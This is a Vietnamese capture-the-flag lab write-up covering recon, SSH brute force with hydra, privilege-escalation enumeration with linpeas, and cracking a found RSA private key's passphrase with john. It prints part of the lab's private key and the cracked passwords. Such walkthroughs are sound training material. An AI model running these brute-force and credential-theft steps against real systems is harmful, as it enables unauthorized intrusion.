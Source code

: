 ![image](https://github.com/user-attachments/assets/4c9afa81-1f7c-4457-a4fa-c55ddb615459)

# Comment

Bài lab này trong lúc rảnh thì mình mò được trên đây :). Độ khó basic kết hợp giữa một tí webapp và chủ yếu là leo quyền thông qua ssh

Các câu hỏi trong bài này liên quan đến từng bước từ recon đến exploit + post exploit nên mình sẽ trình bày luôn cách làm không chi tiết

# Analysis
## Nmap
```                                                                   
┌──(kali㉿kali)-[~]
└─$ nmap -sV -n 10.10.251.176
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-29 02:45 EDT
Nmap scan report for 10.10.251.176
Host is up (0.21s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.28 seconds
```
## Gobuster
Tìm dir ẩn 
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.251.176 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
## Enum4linux
Sử dụng tool này để check username 
```
┌──(kali㉿kali)-[~]
└─$ enum4linux -a 10.10.251.176
```
## Hydra
Sau khi có username sử dụng tool này để tìm password
```
┌──(kali㉿kali)-[~]
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.104.96 ssh 
```
## SSH
Sau khi có credential ta sẽ login bằng ssh sau đó kiểm tra, tuy nhiên hầu như không có quyền để đọc các file cần thiết

## SCP
Việc sử dụng tool này để Upload và Download file của **linpeas.sh** để kiểm tra quyền để leo 
```
┌──(kali㉿kali)-[/usr/share/peass]
└─$ scp /usr/share/peass/linpeas/linpeas.sh jan@10.10.251.176:/home/jan
```
## Linpeas.sh
Sau khi download file thành công tiến hành chạy và ta thấy 

```
jan@basic2:/tmp$ ./linpeas.sh 

-rw-r--r-- 1 kay kay 3326 Apr 19  2018 /home/kay/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75
IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ
o9dyIEJB4wUZTueBPsmb487RdFVkTOVQrVHty1K2aLy2Lka2Cnfjz8Llv+FMadsN
XRvjw/HRiGcXPY8B7nsA1eiPYrPZHIH3QOFIYlSPMYv79RC65i6frkDSvxXzbdfX
AkAN+3T5FU49AEVKBJtZnLTEBw31mxjv0lLXAqIaX5QfeXMacIQOUWCHATlpVXmN
lG4BaG7cVXs1AmPieflx7uN4RuB9NZS4Zp0lplbCb4UEawX0Tt+VKd6kzh+Bk0aU
hWQJCdnb/U+dRasu3oxqyklKU2dPseU7rlvPAqa6y+ogK/woTbnTrkRngKqLQxMl
lIWZye4yrLETfc275hzVVYh6FkLgtOfaly0bMqGIrM+eWVoXOrZPBlv8iyNTDdDE
3jRjqbOGlPs01hAWKIRxUPaEr18lcZ+OlY00Vw2oNL2xKUgtQpV2jwH04yGdXbfJ
LYWlXxnJJpVMhKC6a75pe4ZVxfmMt0QcK4oKO1aRGMqLFNwaPxJYV6HauUoVExN7
bUpo+eLYVs5mo5tbpWDhi0NRfnGP1t6bn7Tvb77ACayGzHdLpIAqZmv/0hwRTnrb
RVhY1CUf7xGNmbmzYHzNEwMppE2i8mFSaVFCJEC3cDgn5TvQUXfh6CJJRVrhdxVy
<SNIP>
-----END RSA PRIVATE KEY-----
```

## SSH2JOHN
Sau khi có private key để login thông qua **ssh -i** ta tiến hành crack parse password

Copy nội dung file private key ở trên về máy `id_rsa`
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh2john id_rsa > id_rsa_hash.txt

┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-07-29 01:41) 20.00g/s 1655Kp/s 1655Kc/s 1655KC/s beeswax..bambino1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Tiến hành login vào user `kay`
```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo ssh -i id_rsa kay@10.10.251.176

[sudo] password for kali: 
The authenticity of host '10.10.251.176 (10.10.251.176)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.251.176' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

# Results

![image](https://hackmd.io/_uploads/HyexAh4tA.png)

-------------------------**Hoàn thành bài lab!**-------------------------
